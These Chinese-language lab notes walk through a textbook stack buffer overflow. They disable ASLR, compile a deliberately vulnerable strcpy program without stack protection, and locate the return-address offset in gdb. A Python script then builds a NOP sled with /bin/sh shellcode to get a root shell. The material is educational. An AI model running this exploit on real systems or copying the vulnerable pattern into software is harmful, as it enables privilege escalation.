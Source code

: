 # 溢出攻击环境准备

## 关闭地址空间随机化

地址空间随机化（address space layout randomization，ASLR）是针对缓冲区溢出攻击的防御措施之一。目的
是让攻击者难以猜测到所注入的恶意代码在内存中的具体位置。    
可以使用以下指令关闭这个机制：  
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

## 攻击环境准备
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char *str)
{
    char buffer[100];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[400];
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);
    
    printf("Returned Properly\n");
    return 1;
}
```
![复现缓冲区溢出](../img/overflow-envperpare.png)

!!! gcc编译指令

    -z execstack 默认情况下，栈不可执行，这个参数设置为可执行栈  
    -fno-stack-protector 关闭StackGuard保护机制，这个机制用来检测缓冲区溢出  
    
## 验证栈的起始地址是固定的

通过上述实验，发生了缓冲区溢出，现在的问题是如何找到注入代码的内存地址。可以利用两个特点来
猜测恶意代码的具体位置：  
1. 多数操作系统把栈（每个进程有一个栈）放在固定的起始地址  
2. 多数程序的栈不深  

```c
#include <stdio.h>

int main()
{
    int x=3;
    printf("address is %p\n", &x);
    return 1;
}
```
![栈起始地址固定](../img/overflow-sameaddr.png)

!!! warning

    书中printf(":: a1's address is 0x%x\n", (unsigned int) &a1);这种方式打印
    会报cast from pointer to integer of different siz错误

## NOP指令可以提高猜测成功概率

![NOP提高概率](../img/overflow-nop.png)

NOP指令什么都不做，告诉CPU往前走，猜中任意NOP指令可以继续往前走

## 通过调试程序找到地址

可以通过调试手段寻找栈帧的地址，然后通过栈帧地址推导出注入代码的位置

!!! gcc指令

    -g选项把调试信息添加到二进制文件中

安装gdb调试程序
```bash
sudo apt install gdb -y
```

![gdb调试1](../img/overflow-gdb1.png)
![gdb调试2](../img/overflow-gdb2.png)

  从结果可知，帧指针0xbffff528，返回地址保存在0xbffff528 + 4，第一个NOP指令在0xbffff528 + 8，
因此可以将0xbffff528 + 8作为恶意代码的入口地址，把它写入返回地址字段中。  
  返回地址字段在输入数据中又处于哪个位置？由于输入复制到buffer中，为了让输入中的返回地址字段准确地覆盖栈中的返回
地址区域，需要知道栈中buffer和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置。  
  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为108，由于返回地址区域在ebp指向位置上面的4字节处，
因此返回地址区域到buffer起始处的距离就是112。

!!! gdb调试命令

    b foo在foo函数处设置一个断点  
    run 运行到断点处  
    p $ebp 打印帧指针，32位程序用p $ebp  
    p/d 表示用十进制打印  
    next 查看下一个语句  

!!! 64位系统和32位系统区别

    占用字节：32位，返回地址和帧指针各占4个字节，64位则占8个字节  
    帧指针寄存器： 32位，叫ebp，64位叫rbp

!!! 堆栈中的寄存器

    EIP/RIP 存储的是CPU下次要执行的指令地址  
    EBP/RBP 存储的是栈底指针  
    ESP/RSP 存储的是栈顶指针  

## 构造输入文件

```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(300))
start = 300 - len(shellcode)
content[start:] = shellcode

ret = 0xbffff528 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')
file = open("badfile", "wb")
file.write(content)
file.close()
```

![gdb调试3](../img/overflow-gdb3.png)
成功溢出攻击得到root权限  &#x1F44D;&#x1F44D;&#x1F44D;